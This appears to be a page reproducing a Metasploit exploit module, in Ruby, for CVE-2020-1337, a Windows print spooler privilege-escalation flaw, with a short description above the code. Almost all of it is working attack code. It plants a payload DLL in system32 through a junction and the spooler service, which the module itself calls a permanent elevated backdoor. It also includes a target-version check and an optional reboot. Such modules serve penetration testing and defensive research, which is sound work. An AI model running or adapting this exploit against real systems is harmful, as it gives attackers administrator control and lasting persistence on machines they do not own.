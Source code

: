 INFO
----

This exploit leverages a file write vulnerability in the print spooler service which will restart if stopped. Because the service cannot be stopped long enough to remove the dll, there is no way to remove the dll once it is loaded by the service. Essentially, on default settings, this module adds a permanent elevated backdoor.

EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    require 'msf/core/post/windows/powershell'

    class MetasploitModule < Msf::Exploit::Local
      Rank = ExcellentRanking

      include Msf::Post::Common
      include Msf::Post::File
      include Msf::Post::Windows::Priv
      include Msf::Exploit::EXE
      include Msf::Post::Windows::Powershell

      prepend Msf::Exploit::Remote::AutoCheck

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Microsoft Spooler Local Privilege Elevation Vulnerability',
            'Description' => %q{
              This exploit leverages a file write vulnerability in the print spooler service
              which will restart if stopped.  Because the service cannot be stopped long
              enough to remove the dll, there is no way to remove the dll once
              it is loaded by the service.  Essentially, on default settings, this module
              adds a permanent elevated backdoor.
            },
            'License' => MSF_LICENSE,
            'Author' =>
              [
                'Peleg Hadar', # Original discovery
                'Tomer Bar', # Original discovery
                '404death', # PoC
                'sailay1996', # PoC
                'bwatters-r7' # msf module
              ],
            'Platform' => ['win'],
            'SessionTypes' => ['meterpreter'],
            'Targets' =>
              [
                [ 'Automatic', { 'Arch' => [ ARCH_X86, ARCH_X64 ] } ]
              ],
            'DefaultTarget' => 0,
            'DisclosureDate' => '2019-11-04',
            'References' =>
              [
                ['CVE', '2020-1337'],
                ['URL', 'https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-1337'],
                ['URL', 'https://github.com/sailay1996/cve-2020-1337-poc'],
                ['URL', 'https://voidsec.com/cve-2020-1337-printdemon-is-dead-long-live-printdemon/']
              ],
            'DefaultOptions' =>
              {
                'DisablePayloadHandler' => true
              },
            'SideEffects' => [ ARTIFACTS_ON_DISK, SCREEN_EFFECTS ]
          )
        )

        register_options([
          OptString.new('JUNCTION_PATH',
                        [false, 'Path to use as junction (%TEMP%/%RAND% by default).', nil]),
          OptString.new('DESTINATION_PATH',
                        [false, 'Location of file to overwrite (%WINDIR%\system32\ by default).', nil]),
          OptString.new('DESTINATION_FILE',
                        [false, 'Filename to overwrite (ualapi.dll by default).', nil]),
          OptString.new('PRINTER_NAME',
                        [true, 'Printer Name to use (%RAND% by default).', Rex::Text.rand_text_alpha(5..9).to_s]),
          OptBool.new('RESTART_TARGET',
                      [false, 'Restart the target after exploit (you will lose your session until a second reboot).', false])
        ])
      end

      def cve_2020_1337_privileged_filecopy(destination_file, destination_path, junction_path, printer_name, b64_payload)
        # Read in Generic Script
        script = exploit_data('CVE-2020-1337', 'cve-2020-1337.ps1')
        fail_with(Failure::BadConfig, 'No exploit script found') if script.nil?

        # Replace Values in Generic Script
        vprint_status('Replacing variables')
        junction_filepath = "#{junction_path}\\#{destination_file}"
        # The random string appears to be required when using the psh_exec
        # It may be due to the way we break apart the script?
        # I would not be upset to find the root cause and fix it.
        script.gsub!('JUNCTION_FILEPATH', junction_filepath)
        script.gsub!('PRINTER_NAME', printer_name)
        script.gsub!('JUNCTION_PATH', junction_path)
        script.gsub!('DESTINATION_PATH', destination_path)
        script.gsub!('B64_PAYLOAD_DLL', b64_payload)

        # Run Exploit Script
        print_status("Running Exploit on #{sysinfo['Computer']}")
        begin
          #client.powershell.execute_string(code: script)
          session.powershell.execute_string({code: script})
        rescue Rex::TimeoutError => e
          elog('Caught timeout.  Exploit may be taking longer or it may have failed.', error: e)
          print_error('Caught timeout.  Exploit may be taking longer or it may have failed.')
        end
      end

      def exploit
        if datastore['DESTINATION_PATH'].nil? || datastore['DESTINATION_PATH'].empty?
          win_dir = session.sys.config.getenv('windir')
          destination_path = "#{win_dir}\\system32"
        else
          destination_path = datastore['DESTINATION_PATH']
        end
        if datastore['DESTINATION_FILE'].nil? || datastore['DESTINATION_FILE'].empty?
          destination_file = 'ualapi.dll'
        else
          destination_file = datastore['DESTINATION_FILE']
        end
        if datastore['JUNCTION_PATH'].nil? || datastore['JUNCTION_PATH'].empty?
          junction_path = "#{session.sys.config.getenv('TEMP')}\\#{Rex::Text.rand_text_alpha(6..15)}"
        else
          junction_path = datastore['JUNCTION_PATH']
        end
        client.core.use("powershell") if not client.ext.aliases.include?("powershell")
        printer_name = datastore['PRINTER_NAME']
        payload_dll = generate_payload_dll

        # Check target
        vprint_status('Checking Target')
        validate_active_host
        validate_payload

        # Run the exploit
        output = cve_2020_1337_privileged_filecopy(destination_file, destination_path, junction_path, printer_name, Rex::Text.encode_base64(payload_dll))
        sleep(3) # make sure exploit is finished

        # Reboot, if desired
        if datastore['RESTART_TARGET']
          sleep(10)
          vprint_status("Rebooting #{sysinfo['Computer']}")
          begin
            session.sys.power.reboot
          rescue Rex::TimeoutError => e
            elog('Caught timeout.  Exploit may be taking longer or it may have failed.', error: e)
            print_error('Caught timeout.  Exploit may be taking longer or it may have failed.')
          end
        end
      end

      def validate_active_host
        begin
          print_status("Attempting to PrivEsc on #{sysinfo['Computer']} via session ID: #{datastore['SESSION']}")
        rescue Rex::Post::Meterpreter::RequestError => e
          elog('Could not connect to session', error: e)
          raise Msf::Exploit::Failed, 'Could not connect to session'
        end
      end

      def validate_payload
        vprint_status("Target Arch = #{sysinfo['Architecture']}")
        vprint_status("Payload Arch = #{payload.arch.first}")
        unless payload.arch.first == sysinfo['Architecture']
          fail_with(Failure::BadConfig, 'Payload arch must match target arch')
        end
      end

      def check
        sysinfo_value = sysinfo['OS']
        build_num = sysinfo_value.match(/\w+\d+\w+(\d+)/)[0].to_i
        vprint_status("Build Number = #{build_num}")
        return Exploit::CheckCode::Appears if sysinfo_value =~ /10/ && build_num <= 18363
        return Exploit::CheckCode::Safe
      end
    end